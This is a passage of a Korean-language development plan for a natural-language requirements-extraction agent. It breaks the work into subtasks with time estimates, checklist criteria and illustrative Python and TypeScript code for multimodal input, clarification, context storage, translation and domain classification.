



# Phase 4: 9개 핵심 에이전트 구현 - Part 1 (Tasks 4.1-4.2)

## 1. NL Input Agent (자연어 입력 에이전트)

### Task 4.1: NL Input Agent 코어 구현

#### SubTask 4.1.1: Agno 기반 NL 처리 엔진 구현

**담당자**: 시니어 NLP 엔지니어  
**예상 소요시간**: 16시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_input_agent.py
from agno.agent import Agent
from agno.models.aws import AwsBedrock
from agno.memory import ConversationSummaryMemory
from typing import Dict, List, Any, Optional
from dataclasses import dataclass

@dataclass
class ProjectRequirements:
    description: str
    project_type: str
    technical_requirements: List[str]
    non_functional_requirements: List[str]
    technology_preferences: Dict[str, Any]
    constraints: List[str]
    extracted_entities: Dict[str, Any]

class NLInputAgent:
    """자연어 프로젝트 설명을 분석하고 요구사항을 추출하는 에이전트"""

    def __init__(self):
        self.agent = Agent(
            name="NL-Input-Processor",
            model=AwsBedrock(
                id="anthropic.claude-3-sonnet-v2:0",
                region="us-east-1"
            ),
            role="Senior requirements analyst specializing in software project analysis",
            instructions=[
                "프로젝트 설명에서 핵심 요구사항을 추출",
                "기술적/비기술적 요구사항을 구분",
                "프로젝트 유형과 규모를 파악",
                "선호 기술 스택과 제약사항을 식별",
                "모호한 부분에 대해 명확화 질문 생성"
            ],
            memory=ConversationSummaryMemory(
                storage_type="dynamodb",
                table_name="t-dev-nl-conversations"
            ),
            tools=[
                ProjectTypeClassifier(),
                TechStackAnalyzer(),
                RequirementExtractor(),
                EntityRecognizer()
            ],
            temperature=0.3,
            max_retries=3
        )

        self.context_enhancer = ContextEnhancer()
        self.validation_engine = RequirementValidator()

    async def process_description(self, description: str, context: Optional[Dict] = None) -> ProjectRequirements:
        """자연어 프로젝트 설명 처리"""

        # 1. 컨텍스트 향상
        enhanced_input = await self.context_enhancer.enhance(description, context)

        # 2. 초기 분석
        analysis_prompt = f"""
        다음 프로젝트 설명을 분석하고 요구사항을 추출하세요:

        설명: {enhanced_input}

        추출해야 할 항목:
        1. 프로젝트 유형 (웹앱, 모바일앱, API, CLI 도구 등)
        2. 핵심 기능 요구사항
        3. 기술적 요구사항
        4. 성능/보안 등 비기능적 요구사항
        5. 선호하는 기술 스택
        6. 제약사항이나 특별 요구사항
        7. 타겟 사용자와 사용 시나리오
        """

        initial_analysis = await self.agent.arun(analysis_prompt)

        # 3. 구조화된 데이터로 변환
        structured_data = await self._parse_analysis(initial_analysis)

        # 4. 검증 및 보완
        validated_requirements = await self.validation_engine.validate(structured_data)

        # 5. 불명확한 부분 식별
        if validated_requirements.has_ambiguities:
            clarification_questions = await self._generate_clarification_questions(
                validated_requirements.ambiguities
            )
            # 사용자에게 질문 반환 (별도 처리)

        return ProjectRequirements(**validated_requirements.data)
```

**검증 기준**:

- [ ] 자연어 입력을 구조화된 요구사항으로 변환
- [ ] 프로젝트 유형 정확히 식별 (95% 이상 정확도)
- [ ] 기술적/비기술적 요구사항 구분
- [ ] 모호한 부분에 대한 명확화 질문 생성

#### SubTask 4.1.2: 멀티모달 입력 처리 시스템

**담당자**: AI 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_input_multimodal.py
from agno.tools import ImageAnalyzer, PDFExtractor
from typing import Union, List
import base64

class MultimodalInputProcessor:
    """텍스트, 이미지, 문서 등 다양한 형식의 입력 처리"""

    def __init__(self, nl_agent: NLInputAgent):
        self.nl_agent = nl_agent
        self.image_analyzer = ImageAnalyzer()
        self.pdf_extractor = PDFExtractor()
        self.diagram_interpreter = DiagramInterpreter()

    async def process_multimodal_input(
        self,
        inputs: List[Union[str, bytes, 'UploadedFile']]
    ) -> ProjectRequirements:
        """멀티모달 입력 처리 및 통합"""

        extracted_texts = []
        diagrams = []

        for input_item in inputs:
            if isinstance(input_item, str):
                extracted_texts.append(input_item)

            elif self._is_image(input_item):
                # 이미지에서 다이어그램이나 UI 목업 분석
                analysis = await self.image_analyzer.analyze(input_item)
                if analysis.contains_diagram:
                    diagram_info = await self.diagram_interpreter.interpret(
                        input_item,
                        diagram_type=analysis.diagram_type
                    )
                    diagrams.append(diagram_info)
                extracted_texts.append(analysis.extracted_text)

            elif self._is_document(input_item):
                # PDF, Word 등 문서에서 텍스트 추출
                doc_content = await self.pdf_extractor.extract(input_item)
                extracted_texts.append(doc_content.text)
                diagrams.extend(doc_content.diagrams)

        # 모든 추출된 정보 통합
        combined_description = self._combine_extracted_info(
            texts=extracted_texts,
            diagrams=diagrams
        )

        # NL 에이전트로 처리
        return await self.nl_agent.process_description(
            combined_description,
            context={"has_diagrams": len(diagrams) > 0}
        )

    def _combine_extracted_info(
        self,
        texts: List[str],
        diagrams: List[Dict]
    ) -> str:
        """추출된 정보를 통합하여 하나의 설명으로 만들기"""

        combined = "\n\n".join(texts)

        if diagrams:
            combined += "\n\n### 다이어그램 정보:\n"
            for i, diagram in enumerate(diagrams):
                combined += f"\n{i+1}. {diagram['type']}: {diagram['description']}"
                if 'components' in diagram:
                    combined += f"\n   컴포넌트: {', '.join(diagram['components'])}"
                if 'relationships' in diagram:
                    combined += f"\n   관계: {', '.join(diagram['relationships'])}"

        return combined

    def _is_image(self, input_item: Union[bytes, 'UploadedFile']) -> bool:
        """이미지 파일 여부 확인"""
        if hasattr(input_item, 'content_type'):
            return input_item.content_type.startswith('image/')
        # 매직 바이트 확인
        if isinstance(input_item, bytes):
            return (input_item[:4] == b'\xff\xd8\xff\xe0' or  # JPEG
                   input_item[:8] == b'\x89PNG\r\n\x1a\n')    # PNG
        return False
```

**검증 기준**:

- [ ] 텍스트, 이미지, PDF 입력 처리 가능
- [ ] 다이어그램에서 구조 정보 추출
- [ ] 여러 입력 소스 통합 처리
- [ ] 오류 처리 및 폴백 메커니즘

#### SubTask 4.1.3: 요구사항 명확화 시스템

**담당자**: 백엔드 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/requirement-clarification.ts
interface ClarificationQuestion {
  id: string;
  category: string;
  question: string;
  options?: string[];
  required: boolean;
  impact: 'high' | 'medium' | 'low';
}

class RequirementClarificationSystem {
  private nlAgent: NLInputAgent;
  private questionGenerator: QuestionGenerator;

  async identifyAmbiguities(requirements: ProjectRequirements): Promise<Ambiguity[]> {
    const ambiguities: Ambiguity[] = [];

    // 1. 기술 스택 모호성 검사
    if (!requirements.technology_preferences.frontend) {
      ambiguities.push({
        type: 'missing_tech_choice',
        field: 'frontend_framework',
        severity: 'high',
      });
    }

    // 2. 규모 및 성능 요구사항 검사
    if (!requirements.non_functional_requirements.find((r) => r.includes('users'))) {
      ambiguities.push({
        type: 'missing_scale_info',
        field: 'expected_user_count',
        severity: 'medium',
      });
    }

    // 3. 보안 요구사항 검사
    if (!this.hasSecurityRequirements(requirements)) {
      ambiguities.push({
        type: 'missing_security_info',
        field: 'authentication_method',
        severity: 'high',
      });
    }

    return ambiguities;
  }

  async generateClarificationQuestions(ambiguities: Ambiguity[]): Promise<ClarificationQuestion[]> {
    const questions: ClarificationQuestion[] = [];

    for (const ambiguity of ambiguities) {
      const question = await this.questionGenerator.generate(ambiguity);
      questions.push(question);
    }

    // 우선순위 정렬
    return questions.sort((a, b) => {
      const priorityMap = { high: 3, medium: 2, low: 1 };
      return priorityMap[b.impact] - priorityMap[a.impact];
    });
  }

  async processUserResponses(
    questions: ClarificationQuestion[],
    responses: Map<string, any>,
  ): Promise<RefinedRequirements> {
    const refinedRequirements = new RefinedRequirements();

    for (const question of questions) {
      const response = responses.get(question.id);
      if (response) {
        await this.applyResponse(refinedRequirements, question, response);
      }
    }

    return refinedRequirements;
  }
}
```

**검증 기준**:

- [ ] 모호한 요구사항 자동 식별
- [ ] 맥락에 맞는 명확화 질문 생성
- [ ] 사용자 응답 처리 및 요구사항 업데이트
- [ ] 우선순위 기반 질문 순서 결정

#### SubTask 4.1.4: NL Agent 테스트 및 벤치마크

**담당자**: QA 엔지니어  
**예상 소요시간**: 8시간

**작업 내용**:

```python
# backend/tests/agents/test_nl_input_agent.py
import pytest
from unittest.mock import Mock, patch
import asyncio

class TestNLInputAgent:
    """NL Input Agent 종합 테스트"""

    @pytest.fixture
    def nl_agent(self):
        return NLInputAgent()

    @pytest.fixture
    def test_descriptions(self):
        return {
            "simple_web": "간단한 할일 관리 웹 애플리케이션을 만들어주세요",
            "complex_mobile": """
            iOS와 Android를 지원하는 소셜 미디어 앱을 개발해주세요.
            사용자는 사진과 동영상을 업로드하고, 친구들과 공유할 수 있어야 합니다.
            실시간 채팅 기능과 푸시 알림이 필요하고, 100만 명 이상의 사용자를 지원해야 합니다.
            """,
            "api_service": "RESTful API 서비스로 인증, 데이터 CRUD, 파일 업로드 기능 포함",
            "ambiguous": "좋은 앱 만들어주세요"
        }

    @pytest.mark.asyncio
    async def test_simple_project_extraction(self, nl_agent, test_descriptions):
        """간단한 프로젝트 설명 처리 테스트"""
        result = await nl_agent.process_description(test_descriptions["simple_web"])

        assert result.project_type == "web_application"
        assert "todo" in str(result.technical_requirements).lower()
        assert len(result.technical_requirements) > 0

    @pytest.mark.asyncio
    async def test_complex_requirements_extraction(self, nl_agent, test_descriptions):
        """복잡한 요구사항 추출 테스트"""
        result = await nl_agent.process_description(test_descriptions["complex_mobile"])

        assert result.project_type == "mobile_application"
        assert "iOS" in result.technology_preferences.get("platforms", [])
        assert "Android" in result.technology_preferences.get("platforms", [])
        assert any("real-time" in req.lower() for req in result.technical_requirements)
        assert any("1000000" in req or "million" in req for req in result.non_functional_requirements)

    @pytest.mark.asyncio
    async def test_ambiguous_input_handling(self, nl_agent, test_descriptions):
        """모호한 입력 처리 테스트"""
        with patch.object(nl_agent, '_generate_clarification_questions') as mock_questions:
            mock_questions.return_value = [
                {
                    "question": "어떤 종류의 앱을 원하시나요?",
                    "options": ["웹", "모바일", "데스크톱"]
                }
            ]

            result = await nl_agent.process_description(test_descriptions["ambiguous"])
            mock_questions.assert_called_once()

    @pytest.mark.benchmark
    async def test_performance_benchmark(self, nl_agent, test_descriptions, benchmark):
        """성능 벤치마크 테스트"""
        async def process_all():
            tasks = [
                nl_agent.process_description(desc)
                for desc in test_descriptions.values()
            ]
            return await asyncio.gather(*tasks)

        results = benchmark(lambda: asyncio.run(process_all()))
        assert len(results) == len(test_descriptions)
        # 평균 처리 시간이 2초 이하여야 함
        assert benchmark.stats['mean'] < 2.0
```

**검증 기준**:

- [ ] 모든 테스트 케이스 통과
- [ ] 평균 응답 시간 2초 이하
- [ ] 정확도 95% 이상
- [ ] 엣지 케이스 처리 검증

---

### Task 4.2: NL 컨텍스트 관리 시스템

#### SubTask 4.2.1: 대화 히스토리 관리

**담당자**: 백엔드 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_context_manager.py
from typing import List, Dict, Optional
from datetime import datetime, timedelta
import json

class ConversationContextManager:
    """NL Input Agent를 위한 대화 컨텍스트 관리"""

    def __init__(self, storage_client):
        self.storage = storage_client
        self.max_history_length = 50
        self.context_ttl = timedelta(hours=24)

    async def get_conversation_context(
        self,
        session_id: str,
        user_id: str
    ) -> ConversationContext:
        """세션별 대화 컨텍스트 조회"""

        # 현재 세션 컨텍스트
        current_context = await self.storage.get_item(
            table="conversation_contexts",
            key={"session_id": session_id}
        )

        # 사용자의 이전 프로젝트 컨텍스트
        user_history = await self.storage.query(
            table="conversation_contexts",
            index="user_id_index",
            key_condition="user_id = :uid",
            expression_values={":uid": user_id},
            limit=5
        )

        # 관련 프로젝트 패턴 분석
        patterns = await self._analyze_user_patterns(user_history)

        return ConversationContext(
            session_id=session_id,
            user_id=user_id,
            current_messages=current_context.get("messages", []),
            user_preferences=patterns.get("preferences", {}),
            common_requirements=patterns.get("common_requirements", []),
            technology_stack_history=patterns.get("tech_stacks", [])
        )

    async def update_context(
        self,
        session_id: str,
        message: Dict[str, Any],
        extracted_info: Optional[Dict[str, Any]] = None
    ):
        """대화 컨텍스트 업데이트"""

        context = await self.get_conversation_context(session_id, message["user_id"])

        # 메시지 추가
        context.current_messages.append({
            "timestamp": datetime.utcnow().isoformat(),
            "role": message["role"],
            "content": message["content"],
            "extracted_info": extracted_info
        })

        # 히스토리 크기 관리
        if len(context.current_messages) > self.max_history_length:
            # 오래된 메시지 요약
            summary = await self._summarize_old_messages(
                context.current_messages[:10]
            )
            context.current_messages = [summary] + context.current_messages[10:]

        # 저장
        await self.storage.put_item(
            table="conversation_contexts",
            item={
                "session_id": session_id,
                "user_id": message["user_id"],
                "messages": context.current_messages,
                "last_updated": datetime.utcnow().isoformat(),
                "ttl": int((datetime.utcnow() + self.context_ttl).timestamp())
            }
        )

    async def _analyze_user_patterns(
        self,
        user_history: List[Dict]
    ) -> Dict[str, Any]:
        """사용자의 프로젝트 패턴 분석"""

        patterns = {
            "preferences": {},
            "common_requirements": [],
            "tech_stacks": []
        }

        if not user_history:
            return patterns

        # 기술 스택 빈도 분석
        tech_stack_frequency = {}
        for project in user_history:
            if 'extracted_info' in project and 'tech_stack' in project['extracted_info']:
                for tech in project['extracted_info']['tech_stack']:
                    tech_stack_frequency[tech] = tech_stack_frequency.get(tech, 0) + 1

        # 상위 3개 기술 스택
        patterns["tech_stacks"] = sorted(
            tech_stack_frequency.items(),
            key=lambda x: x[1],
            reverse=True
        )[:3]

        # 공통 요구사항 패턴
        requirement_frequency = {}
        for project in user_history:
            if 'extracted_info' in project and 'requirements' in project['extracted_info']:
                for req in project['extracted_info']['requirements']:
                    req_key = self._normalize_requirement(req)
                    requirement_frequency[req_key] = requirement_frequency.get(req_key, 0) + 1

        # 2번 이상 나타난 요구사항
        patterns["common_requirements"] = [
            req for req, count in requirement_frequency.items()
            if count >= 2
        ]

        return patterns
```

**검증 기준**:

- [ ] 세션별 대화 이력 관리
- [ ] 사용자 패턴 분석 및 추천
- [ ] 대화 요약 기능
- [ ] TTL 기반 자동 정리

#### SubTask 4.2.2: 프로젝트 템플릿 학습 시스템

**담당자**: ML 엔지니어  
**예상 소요시간**: 14시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_template_learner.py
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.cluster import KMeans
import numpy as np

class ProjectTemplateLearner:
    """성공적인 프로젝트에서 패턴을 학습하여 템플릿 생성"""

    def __init__(self):
        self.vectorizer = TfidfVectorizer(max_features=1000)
        self.clustering_model = KMeans(n_clusters=20)
        self.templates: Dict[str, ProjectTemplate] = {}

    async def learn_from_successful_projects(
        self,
        projects: List[Project]
    ) -> Dict[str, ProjectTemplate]:
        """성공 프로젝트에서 템플릿 학습"""

        # 1. 프로젝트 설명 벡터화
        descriptions = [p.original_description for p in projects]
        vectors = self.vectorizer.fit_transform(descriptions)

        # 2. 클러스터링으로 유사 프로젝트 그룹화
        clusters = self.clustering_model.fit_predict(vectors)

        # 3. 각 클러스터에서 템플릿 추출
        for cluster_id in range(self.clustering_model.n_clusters):
            cluster_projects = [
                p for i, p in enumerate(projects)
                if clusters[i] == cluster_id
            ]

            if len(cluster_projects) >= 3:  # 최소 3개 프로젝트
                template = await self._extract_template(cluster_projects)
                self.templates[template.name] = template

        return self.templates

    async def _extract_template(
        self,
        projects: List[Project]
    ) -> ProjectTemplate:
        """프로젝트 그룹에서 공통 템플릿 추출"""

        # 공통 요구사항 추출
        common_requirements = self._find_common_elements(
            [p.requirements for p in projects]
        )

        # 공통 기술 스택
        common_tech_stack = self._find_common_elements(
            [p.tech_stack for p in projects]
        )

        # 평균 복잡도 및 규모
        avg_complexity = np.mean([p.complexity_score for p in projects])

        # 템플릿 이름 생성
        template_name = self._generate_template_name(
            common_requirements,
            common_tech_stack
        )

        return ProjectTemplate(
            name=template_name,
            description_pattern=self._extract_description_pattern(projects),
            common_requirements=common_requirements,
            recommended_tech_stack=common_tech_stack,
            typical_complexity=avg_complexity,
            success_rate=self._calculate_success_rate(projects),
            typical_timeline=self._calculate_typical_timeline(projects),
            common_challenges=self._extract_common_challenges(projects)
        )

    async def suggest_template(
        self,
        description: str
    ) -> Optional[ProjectTemplate]:
        """입력된 설명에 가장 적합한 템플릿 제안"""

        if not self.templates:
            return None

        # 설명 벡터화
        desc_vector = self.vectorizer.transform([description])

        # 가장 가까운 클러스터 찾기
        cluster_id = self.clustering_model.predict(desc_vector)[0]

        # 해당 클러스터의 템플릿 반환
        for template in self.templates.values():
            if template.cluster_id == cluster_id:
                return template

        return None

    def _find_common_elements(
        self,
        element_lists: List[List[str]]
    ) -> List[str]:
        """여러 리스트에서 공통 요소 찾기"""

        if not element_lists:
            return []

        # 모든 리스트에 나타나는 요소
        common = set(element_lists[0])
        for elements in element_lists[1:]:
            common = common.intersection(set(elements))

        # 빈도가 높은 순으로 정렬
        frequency = {}
        for elements in element_lists:
            for elem in elements:
                frequency[elem] = frequency.get(elem, 0) + 1

        return sorted(common, key=lambda x: frequency[x], reverse=True)
```

**검증 기준**:

- [ ] 프로젝트 클러스터링 정확도 85% 이상
- [ ] 템플릿 추천 적중률 80% 이상
- [ ] 실시간 학습 및 업데이트
- [ ] 템플릿 품질 검증 메커니즘

#### SubTask 4.2.3: 다국어 지원 시스템

**담당자**: NLP 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_multilingual.py
from typing import Dict, List, Tuple
import langdetect
from googletrans import Translator

class MultilingualNLProcessor:
    """다국어 프로젝트 설명 처리"""

    SUPPORTED_LANGUAGES = ['en', 'ko', 'ja', 'zh-cn', 'es', 'fr', 'de']

    def __init__(self, nl_agent: NLInputAgent):
        self.nl_agent = nl_agent
        self.translator = Translator()
        self.language_specific_processors = {
            'ko': KoreanProcessor(),
            'ja': JapaneseProcessor(),
            'zh-cn': ChineseProcessor()
        }

    async def process_multilingual_input(
        self,
        text: str,
        target_lang: str = 'en'
    ) -> Tuple[ProjectRequirements, Dict[str, Any]]:
        """다국어 입력 처리"""

        # 1. 언어 감지
        detected_lang = langdetect.detect(text)

        if detected_lang not in self.SUPPORTED_LANGUAGES:
            raise UnsupportedLanguageError(f"Language {detected_lang} is not supported")

        # 2. 언어별 전처리
        if detected_lang in self.language_specific_processors:
            preprocessed_text = await self.language_specific_processors[
                detected_lang
            ].preprocess(text)
        else:
            preprocessed_text = text

        # 3. 영어로 번역 (NL Agent는 영어로 학습됨)
        if detected_lang != 'en':
            translated_text = await self._translate_with_context(
                preprocessed_text,
                detected_lang,
                'en'
            )
            # 기술 용어 보존
            translated_text = self._preserve_technical_terms(
                original=preprocessed_text,
                translated=translated_text,
                source_lang=detected_lang
            )
        else:
            translated_text = preprocessed_text

        # 4. NL Agent 처리
        requirements = await self.nl_agent.process_description(translated_text)

        # 5. 결과를 원래 언어로 역번역 (선택적)
        localized_requirements = await self._localize_requirements(
            requirements,
            target_lang=detected_lang
        )

        return requirements, {
            "original_language": detected_lang,
            "processed_text": translated_text,
            "localized_output": localized_requirements
        }

    def _preserve_technical_terms(
        self,
        original: str,
        translated: str,
        source_lang: str
    ) -> str:
        """기술 용어 보존 처리"""

        # 언어별 기술 용어 사전
        tech_terms = {
            'ko': {
                '프론트엔드': 'frontend',
                '백엔드': 'backend',
                '데이터베이스': 'database',
                'API': 'API',
                '클라우드': 'cloud'
            },
            'ja': {
                'フロントエンド': 'frontend',
                'バックエンド': 'backend',
                'データベース': 'database'
            }
        }

        if source_lang in tech_terms:
            for original_term, english_term in tech_terms[source_lang].items():
                if original_term in original and english_term not in translated:
                    # 기술 용어가 잘못 번역된 경우 수정
                    translated = self._smart_replace(
                        translated,
                        original_term,
                        english_term
                    )

        return translated
```

**검증 기준**:

- [ ] 7개 언어 지원
- [ ] 기술 용어 보존율 95% 이상
- [ ] 번역 정확도 90% 이상
- [ ] 언어별 특수 처리 지원

#### SubTask 4.2.4: 실시간 피드백 처리

**담당자**: 백엔드 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/nl-realtime-feedback.ts
import { EventEmitter } from 'events';
import { WebSocket } from 'ws';

interface FeedbackEvent {
  type: 'clarification' | 'correction' | 'addition';
  content: string;
  timestamp: Date;
  processed: boolean;
}

class RealtimeFeedbackProcessor extends EventEmitter {
  private nlAgent: NLInputAgent;
  private feedbackQueue: FeedbackEvent[] = [];
  private processingLock: boolean = false;

  constructor(nlAgent: NLInputAgent) {
    super();
    this.nlAgent = nlAgent;
  }

  async handleRealtimeFeedback(sessionId: string, ws: WebSocket): Promise<void> {
    ws.on('message', async (data: string) => {
      const feedback = JSON.parse(data) as FeedbackEvent;

      // 피드백 큐에 추가
      this.feedbackQueue.push(feedback);

      // 즉시 확인 응답
      ws.send(
        JSON.stringify({
          type: 'feedback_received',
          id: feedback.id,
          status: 'queued',
        }),
      );

      // 피드백 처리
      if (!this.processingLock) {
        await this.processFeedbackQueue(sessionId, ws);
      }
    });
  }

  private async processFeedbackQueue(sessionId: string, ws: WebSocket): Promise<void> {
    this.processingLock = true;

    while (this.feedbackQueue.length > 0) {
      const feedback = this.feedbackQueue.shift()!;

      try {
        // 피드백 유형별 처리
        let result;
        switch (feedback.type) {
          case 'clarification':
            result = await this.processClarification(sessionId, feedback);
            break;
          case 'correction':
            result = await this.processCorrection(sessionId, feedback);
            break;
          case 'addition':
            result = await this.processAddition(sessionId, feedback);
            break;
        }

        // 처리 결과 전송
        ws.send(
          JSON.stringify({
            type: 'feedback_processed',
            feedback_id: feedback.id,
            result: result,
            updated_requirements: await this.nlAgent.getCurrentRequirements(sessionId),
          }),
        );
      } catch (error) {
        ws.send(
          JSON.stringify({
            type: 'feedback_error',
            feedback_id: feedback.id,
            error: error.message,
          }),
        );
      }
    }

    this.processingLock = false;
  }

  private async processClarification(sessionId: string, feedback: FeedbackEvent): Promise<any> {
    // 명확화 응답 처리
    const context = await this.nlAgent.getContext(sessionId);
    const updatedRequirements = await this.nlAgent.refineRequirements(
      context.requirements,
      feedback.content,
      'clarification',
    );

    return {
      type: 'requirements_refined',
      changes: this.diffRequirements(context.requirements, updatedRequirements),
    };
  }
}
```

**검증 기준**:

- [ ] WebSocket 기반 실시간 통신
- [ ] 피드백 큐잉 및 순차 처리
- [ ] 요구사항 즉시 업데이트
- [ ] 동시성 제어 및 오류 처리

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 2 (Tasks 4.3-4.4)

## 1. NL Input Agent (자연어 입력 에이전트) - 계속

### Task 4.3: NL 에이전트 고급 기능

#### SubTask 4.3.1: 도메인 특화 언어 모델

**담당자**: ML 엔지니어  
**예상 소요시간**: 16시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_domain_specific.py
from transformers import AutoTokenizer, AutoModelForSequenceClassification
import torch

class DomainSpecificNLProcessor:
    """도메인별 특화 언어 처리"""

    DOMAIN_MODELS = {
        'fintech': 'finbert-base',
        'healthcare': 'biobert-base',
        'legal': 'legal-bert-base',
        'ecommerce': 'ecommerce-bert-base'
    }

    def __init__(self):
        self.domain_classifiers = {}
        self.domain_extractors = {}
        self._load_domain_models()

    def _load_domain_models(self):
        """도메인별 모델 로드"""
        for domain, model_name in self.DOMAIN_MODELS.items():
            self.domain_classifiers[domain] = DomainClassifier(model_name)
            self.domain_extractors[domain] = DomainSpecificExtractor(domain)

    async def process_domain_specific_requirements(
        self,
        description: str,
        detected_domain: Optional[str] = None
    ) -> DomainRequirements:
        """도메인 특화 요구사항 처리"""

        # 1. 도메인 자동 감지
        if not detected_domain:
            detected_domain = await self._detect_domain(description)

        if detected_domain not in self.domain_classifiers:
            # 일반 도메인으로 폴백
            return await self._process_general_domain(description)

        # 2. 도메인 특화 처리
        domain_classifier = self.domain_classifiers[detected_domain]
        domain_extractor = self.domain_extractors[detected_domain]

        # 3. 도메인별 엔티티 추출
        entities = await domain_extractor.extract_entities(description)

        # 4. 도메인별 요구사항 분류
        requirements = await domain_classifier.classify_requirements(
            description,
            entities
        )

        # 5. 도메인별 제약사항 및 규정 확인
        compliance_requirements = await self._check_domain_compliance(
            detected_domain,
            requirements
        )

        return DomainRequirements(
            domain=detected_domain,
            general_requirements=requirements.general,
            domain_specific_requirements=requirements.specific,
            entities=entities,
            compliance_requirements=compliance_requirements,
            recommended_architecture=self._get_domain_architecture(detected_domain),
            security_requirements=self._get_domain_security(detected_domain)
        )

    async def _detect_domain(self, description: str) -> str:
        """텍스트에서 도메인 자동 감지"""

        # 키워드 기반 초기 감지
        domain_keywords = {
            'fintech': ['payment', 'banking', 'transaction', 'finance', '금융', '결제'],
            'healthcare': ['patient', 'medical', 'health', 'diagnosis', '의료', '환자'],
            'ecommerce': ['shop', 'product', 'cart', 'order', '쇼핑', '상품'],
            'legal': ['contract', 'legal', 'law', 'compliance', '법률', '계약']
        }

        scores = {}
        for domain, keywords in domain_keywords.items():
            score = sum(1 for keyword in keywords if keyword.lower() in description.lower())
            scores[domain] = score

        # ML 모델을 통한 정밀 감지
        if max(scores.values()) > 0:
            top_domains = sorted(scores.items(), key=lambda x: x[1], reverse=True)[:2]

            # 상위 2개 도메인에 대해 ML 모델로 검증
            for domain, _ in top_domains:
                confidence = await self.domain_classifiers[domain].get_confidence(description)
                if confidence > 0.7:
                    return domain

        return 'general'

    def _get_domain_architecture(self, domain: str) -> Dict[str, Any]:
        """도메인별 추천 아키텍처"""

        architectures = {
            'fintech': {
                'pattern': 'microservices',
                'key_components': ['payment-gateway', 'fraud-detection', 'audit-log'],
                'data_storage': 'event-sourcing',
                'messaging': 'kafka',
                'security': 'zero-trust'
            },
            'healthcare': {
                'pattern': 'layered',
                'key_components': ['hl7-adapter', 'fhir-server', 'imaging-storage'],
                'data_storage': 'hybrid',
                'messaging': 'hl7-mllp',
                'security': 'hipaa-compliant'
            },
            'ecommerce': {
